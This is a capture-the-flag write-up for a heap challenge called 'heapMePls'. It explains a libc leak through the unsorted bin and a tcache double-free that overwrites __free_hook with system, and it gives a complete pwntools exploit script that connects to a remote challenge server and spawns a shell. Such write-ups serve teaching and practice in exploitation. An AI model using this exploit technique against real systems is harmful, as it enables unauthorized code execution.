 ### 0x00 Challenge: heapMePls
**Description:**
>Bin: https://drive.google.com/file/d/1iwb124SFxfSvHLdaQTV6tQ69Bq006ToR/view?usp=sharing
>
>nc 168.119.247.237 5012

### 0x01 Write-up:
The exploitation of this heap overflow challenge consits in the following step:
0x0 Leak glibc address
0x1 Exploit the double-free vulnerability, because GLIBC<2.29 has not mitigation for tcache double-free.

First, for simplicity make a script with simulate the interactions with the vulnerable program, e.g. with the functionalities to add, read, modify and free chunks.

Second, make the exploit, in order to leak glibc address, we have to fulfill the unsorted bins list with 7 chunks, after free these chunks we will have the main_arena address in the chunks. With read functions we can read this address. Thus, we will have glibc base address by a calculation of main_arena address.

Finally, now that we have all the function addresses of glibc, we just need to exploit the double-free, and overwrite one address that is called by the program, e.g. __free_hook. In this example, we overwrite __free_hook with system and with the argument "/bin/sh", thus, when we call free the next time we will execute system("/bin/sh").

**Exploit:**
```python
#!/usr/bin/env python3

from pwn import *

elf = context.binary = ELF("./vuln")
libc = elf.libc

context.terminal = ["tmux", "splitw", "-h"]

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('168.119.247.237',5012)
    else:
        print(args)
        return process(elf.path)

def add(size, data):
    io.sendline("1")
    io.sendlineafter("N# of items: ", f"{size}")
    io.sendlineafter("Name: ", data)
    n = io.recvuntil("created")
    io.recvuntil("> ")
    return int(str(n).split(" ")[1])


def free(num):
    io.sendline("2")
    io.sendlineafter("Intro index: ", f"{num}")
    io.recvuntil("> ")


def readchunk(num):
    io.sendline("3")
    io.sendlineafter("Intro index: ", f"{num}")
    r = io.recv(0x58)
    io.recvuntil("> ")
    return r

def edit(num, size, data):
    io.send("4\n")
    io.sendlineafter("Intro index: ", f"{num}")
    io.sendlineafter("Intro size: ", f"{size}")
    io.sendlineafter("Intro data: ", data)
    io.recvuntil("> ")

io = start()
io.recvuntil("> ")
io.timeout = 0.1


#### Leak heap
index = 0
chunk_1 = add(256, b"AAAAA")
chunk_2 = add(256, b"BBBBB")
chunk_3 = add(256, b"CCCCC")
free(chunk_2)
free(chunk_3)
data = readchunk(chunk_3)
data_sanitized = data[0:8].decode('iso-8859-1').split("\x0a")[0]
heap_address = unpack(data_sanitized.encode('iso-8859-1'), 'all') - 0x370
log.info(f"heap address: 0x{heap_address:02x}")

# leak libc
chunk_4 = add(256, b"AA")
chunk_5 = add(256, b"XXXXXXXX")
chunk_6 = add(256, b"LOLOL")
chunk_7 = add(256, b"LOLOL")
chunk_8 = add(256, b"LOLOL")
chunk_9 = add(256, b"LOLOL")
chunk_10 = add(256, b"LOLOL")
chunk_11 = add(256, b"LOLOL")
chunk_12 = add(256, b"LOLOL")
free(chunk_4)
free(chunk_5)
free(chunk_6)
free(chunk_7)
free(chunk_8)
free(chunk_9)
free(chunk_10)
free(chunk_11)   # Unsortedbin can leak libc address
data = readchunk(chunk_11)
data_sanitized = data[0:8].decode('iso-8859-1').split("\x0a")[0]
main_arena_address = unpack(data_sanitized.encode('iso-8859-1'), 'all') - 96
log.info(f"main arena address: 0x{main_arena_address:02x}")
libc.address = main_arena_address - libc.sym.main_arena
log.info(f"libc address: 0x{libc.address:02x}")

#Restore
chunk_4 = add(256, b"AA")
chunk_5 = add(256, b"XXXXXXXX")
chunk_6 = add(256, b"LOLOL")
chunk_7 = add(256, b"LOLOL")
chunk_8 = add(256, b"LOLOL")
chunk_9 = add(256, b"LOLOL")
chunk_10 = add(256, b"LOLOL")
chunk_11 = add(256, b"LOLOL")
chunk_12 = add(256, b"LOLOL")


# < GLIBC 2.29 there is no tcache double-free mitigation
chunk_x = add(30, b"BBBB")
free(chunk_x)
free(chunk_x)
log.info(f"__free_hook address: 0x{libc.sym.__free_hook:02x}")
log.info(f"Writing in address 0x{libc.sym.__free_hook-8:02x}")
chunk_13 = add(30, p64(libc.sym.__free_hook)) # address to overwrite, needs leak libc
chunk_14 = add(30, b"dummy")
chunk_15 = add(30, p64(libc.sym.system))
chunk_16 = add(30, b"/bin/sh\0")
free(chunk_16)

io.interactive()
```

